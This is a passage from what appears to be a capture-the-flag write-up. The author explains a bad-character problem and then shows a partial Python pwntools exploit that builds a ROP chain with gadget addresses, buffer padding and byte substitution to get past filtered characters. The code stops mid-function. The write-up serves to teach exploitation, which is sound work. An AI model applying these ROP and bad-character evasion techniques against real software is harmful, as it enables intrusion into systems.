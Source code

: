 When I wrote up this exploit, it worked perfectly until I attempted to modify the '.' character and then some of my payload wasn't getting through. After some debugging, I discovered that the location pointer for write_loc+4 actually contained the hex value of one of the bad chars. So after some experimenting, I ended up shifting the location of my write up 3 bytes which is the write_loc + 3 in my exploit. You'll also see a check for bad chars at the end of the exploit so I don't run into that problem again.


```python 
#!/usr/bin/python3

from pwn import *
# pop r12; pop r13; pop r14; pop r15; ret; 
pop_gaget       = p64(0x40069c)
pop_15  = p64(0x4006a2)

# Move [r13] r12
write_gaget     = p64(0x400634)
pop_rdi         = p64(0x4006a3)
write_loc       = 0x601028 + 3
print_file      = p64(0x400620)
back_junk       = b"B" * 20
# sub    BYTE PTR [r15],r14b
sub_gaget = p64(0x0000000000400630)

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xc0deba5e)*2

badChars = b"xga."

"""
Place a string (1st arg) into the location
given by the 2nd arg. Note the 2nd arg should be 
packed
"""
import binascii
def print_payload(payload):
        for i in range(0, len(payload), 8):
                continue
            # print(binascii.hexlify(payload[i:i+8]))

def string_place(write_string, write_start):
        returnPayload = b""
        toModify = []
        for i in range(0, len(write_string), 8):
                returnPayload += pop_gaget
                # r12 Value
                temp = write_string[i:i+8]
                # pad in the values so it always fills in all 8 bytes
                temp += b"\x00" * ( 8 - len(temp) )
				
                x = b""
                for j in range(len(temp)):
						
                        #the while loop will keep modifing the value untill it is a good char
                        if temp[j] in badChars:
                                        x += (int(temp[j]) + 1).to_bytes(1, 'big')
											
                                        # this should be the exact memory address of the bad character
                                        toModify.append(write_start + i + j)
                        else:
```